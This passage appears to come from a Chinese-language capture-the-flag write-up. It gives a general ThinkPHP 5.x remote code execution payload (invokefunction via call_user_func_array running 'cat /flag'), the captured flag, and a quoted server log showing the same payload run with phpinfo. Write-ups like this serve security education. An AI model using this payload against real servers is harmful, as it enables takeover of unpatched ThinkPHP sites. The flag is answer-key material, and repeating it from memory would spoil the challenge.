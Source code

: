 ```c
Apache/2.4.18 (Ubuntu) Server at 117.78.28.89 Port 30910
```

![](/assets/images/move/1558953551013-2005b272-8437-410f-b11c-2ad1e97816f0.png)

- 参考: [ThinkPHP5.x 前台getshell分析](https://www.kingkk.com/2018/12/ThinkPHP5-x-%E5%89%8D%E5%8F%B0getshell%E5%88%86%E6%9E%90/#%E6%9C%80%E5%90%8E)

通用payload:

```php
index.php
?s=index/\think\app/invokefunction
&function=call_user_func_array
&vars[0]=system
&vars[1][]=cat+/flag //flag{573bebb4fa5f7da686b91e218bd58256} 
```

另外在`/1/runtime/log/201903/12.log`中发现payload如下，可以直接使用。

```php
[ 2019-03-12T23:18:49+08:00 ] 223.104.19.11 GET 39.105.136.196:8000/ \
    ?s=index/\think\app/invokefunction\
	&function=call_user_func_array \
	&vars[0]=phpinfo&vars[1][]=1
[ error ] [0]variable type error： boolean
```



## Misc



### 强网先锋-打野


